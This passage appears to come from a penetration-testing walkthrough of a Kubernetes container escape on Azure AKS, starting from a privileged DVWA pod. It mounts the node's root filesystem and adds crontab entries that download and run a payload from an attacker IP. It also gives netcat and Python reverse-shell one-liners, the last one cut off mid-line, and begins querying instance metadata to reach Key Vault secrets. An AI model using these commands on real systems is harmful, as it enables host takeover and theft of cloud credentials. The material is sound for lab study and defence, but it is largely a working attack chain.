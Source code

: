 We can confirm that it did not work in the new version of the kubernets in Azure, and most probably it should be related to the fact that cgroup exploit was mainly related to the Docker and not the containerd!

### 3. Cronjob

As mentioned previously, we have a privileged container (Running in --privileged mode) in our case which is the DVWA. Since we already have root access on this pod, we can simply mount the Node filesystem and create a cronjob which triggers and gives us a reverse shell.

First, we need to check the filesystem and mount the root filesystem of the node on the mount point:

```bash
ls -la /dev/
```

and then we can mount as follow:

```bash
mount /dev/sb1 /mnt/
echo "*/1 * * * * root curl -vk http://<attacker_vm_public_ip>:8001/met-host -o /root/met && chmod 777 /root/met && /root/met" >> /mnt/etc/crontab
```

and at the same time we should listen to the port 4243 which is through ./msfconsole2 script as has been shown previously.

It does not necessarily need to download the met-host from the Ruby webserver, as we can use other options as well for triggering the reverse shell such as:

```bash
echo "*/1 * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_vm_public_ip> 4243" >  /mnt/etc/crontab
echo "*/1 * * * * root python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_vm_public_ip>",4243)) >  /mnt/etc/crontab
...
```

After getting the reverse shell on our host, we can check if we are on worker node:

```bash
#id
uid=0(root) gid=0(root) groups=0(root)
#hostname
aks-default-38723430-vmss000000
```

### Get keys from keyvault

Get the instance metadata

```bash
curl -s -H Metadata:true --noproxy "*" 'http://169.254.169.254/metadata/instance?api-version=2021-02-01'
```

Extract the keyvault name
